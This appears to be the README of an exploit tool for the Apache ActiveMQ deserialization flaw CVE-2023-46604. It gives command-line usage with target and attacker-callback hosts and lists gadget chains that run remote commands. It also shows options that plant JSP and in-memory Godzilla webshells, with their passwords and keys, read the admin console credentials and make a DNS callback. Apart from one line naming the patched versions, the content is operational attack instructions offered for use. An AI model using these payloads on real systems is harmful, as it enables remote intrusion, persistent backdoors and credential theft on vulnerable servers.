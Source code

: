 ··
ActiveMQ CVE-2023-46604 61616端口利用工具

安全版本>= 5.18.3/5.17.6/5.16.7

java -jar ActiveMQExp.jar rhost=rhost lhost=lhost gadget=gadget cmd=cmd

例如

java -jar ActiveMQExp.jar rhost=127.0.0.1 lhost=127.0.0.1 gadget=cb19 cmd=whoami

默认 rport=61616 ldapport=1389 httpport=9998

目前支持的gadget如下

gadget=wincmd cmd=whoami //无回显

gadget=linuxcmd cmd=whoami //无回显

gadget=spelcmd cmd=whoami //无回显

gadget=spelecho cmd=whoami //有回显 from Hutt0n0

gadget=spelclass cmd=memcmd //内存马 from Hutt0n0 http://rhost:8161/admin/memshell?cmd=whoami

gadget=spelclass cmd=memgodzilla //内存马 http://rhost:8161/admin/memgodzilla pass:Tas9er key:B7VO2sAamj

gadget=spelclass cmd=readfile //读8186账户密码并且请求一次8186/admin/

gadget=spelclass cmd=whoami //有回显

gadget=spelclass cmd=cmdjsp // http://rhost:8161/api/cmd.jsp

gadget=spelclass cmd=godzillajsp // http://rhost:8161/api/godzillajsp pass:Tas9er key:B7VO2sAamj

gadget=urldns cmd=xxx.dnslog.cn

gadget=cb18 cmd=whoami //有回显

gadget=cb18 cmd=cmdjsp

gadget=cb18 cmd=godzillajsp

gadget=cb18 cmd=readfile

gadget=cb18 cmd=memgodzilla

gadget=cb19 cmd=whoami //有回显

gadget=cb19 cmd=cmdjsp

gadget=cb19 cmd=godzillajsp

gadget=cb19 cmd=readfile

gadget=cb19 cmd=memgodzilla

​··
